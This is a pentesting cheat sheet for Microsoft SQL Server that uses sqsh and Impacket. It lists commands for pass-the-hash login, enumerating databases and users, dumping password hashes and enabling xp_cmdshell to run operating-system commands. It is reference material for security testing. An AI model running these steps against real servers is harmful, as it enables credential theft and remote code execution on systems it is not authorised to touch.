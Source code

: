 # Manual

## 01 - Setup

Note: The enumeration process is the same thing when using Windows own native program called `sqlcmd` or `osql` which is why `sqsh` on Linux uses the same syntax.

Install `sqsh` in Debian-based distros

```
$ sudo apt install sqsh
```

Install `sqsh` in Arch-based distros

```
$ yay -S sqsh
```

## 02 - Usage

Usage of the program.

```
$ sqsh -S <IP> -D <database> -U [<domain>\]<username> -P <password>

$ sqsh -S <IP> -D <database> -U [<domain\]<username -P 00000000000000000000000000000000:<nt_hash>
```

TODO: Re-arrange from this section to post exploitation under **Enumeration and Discovery**

## 04 - Operating System

### 4.1 - Hostname

Enumerate target machine hostname

```
1> SELECT HOST_NAME();
2> go
```

### 4.2 - Version

MSSQL version details

```
1> SELECT @@VERSION;
2> go
```

## 05 - Linked Servers

### 5.1 - Enumerate Linked Servers

```
1> EXEC sp_linkedservers;
2> SELECT * FROM sys.servers;
3> go
```

## 06 - Database

### 6.1 - Current Database

Enumerate current database

```
1> SELECT DB_NAME();
2> go
```

### 6.2 - Retrieve Database

Enumerate all available databases

```
1> SELECT name FROM sys.databases;
2> go

1> SELECT name FROM master.dbo.sysdatabases;
2> go
```

### 6.3 - Relation Names

- Enumerate table names

```
1> SELECT * FROM <database>.INFORMATION_SCHEMA.TABLES;
2> go
```

### 6.4 - Usernames

- Gather all users from MSSQL Database

```
1> SELECT sp.name AS login, sp.type_desc AS login_type, so.password_hash, sp.create_date, sp.modify_date, CASE WHEN sp.is_disabled = 1 THEN 'Disabled' ELSE 'Enabled' END AS STATUS FROM sys.server_principals sp LEFT JOIN sys.sql_logins sl ON sp.principal_id = sl.principal_id WHERE sp.type NOT IN ('G', 'R') ORDER BY sp.name;
2> go
```

- Gather all administrators logins

```
1> SELECT loginname FROM syslogins WHERE sysadmin = 1;
2> go
```

### 6.5 - Hashdump

Dump the hashes from the user accounts

```
1> SELECT name, password_hash FROM master.sys.sql_logins;
2> go
```

### 6.6 - Enable `xp_cmdshell`

Enumerate the xp_cmdshell whatever if it's enabled or not

```
1> SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name = 'xp_cmdshell';
2> go
```

Enable xp_cmdshell for remote execution

```
1> EXEC sp_configure 'show advanced options', 1;
2> EXEC sp_configure 'xp_cmdshell', 1;
3> RECONFIGURE;
4> go

1> xp_cmdshell 'whoami';
2> go
```

## 02 - Impacket

### 2.1 - Help Menu

```
$ mssqlclient.py -h

SQL> help
```

### 2.2 - Usage

```
$ mssqlclient -db <database> -port 1433 -windows-auth <domain>/<username>:<password>@<IP>
```

### 2.3 - Enable `xp_cmdshell`

```
SQL> enable_xp_cmdshell
```

---
## References

- [SS64: SQLCMD](https://ss64.com/sql/sqlcmd.html)

- [Microsoft Documentation: Invoke-SQLCMD](https://learn.microsoft.com/en-us/powershell/module/sqlserver/invoke-sqlcmd?view=sqlserver-ps)

- [Hacktricks: Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

- [Hacking Articles: MSSQL for Pentester Command Execution with XP_Cmdshell](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)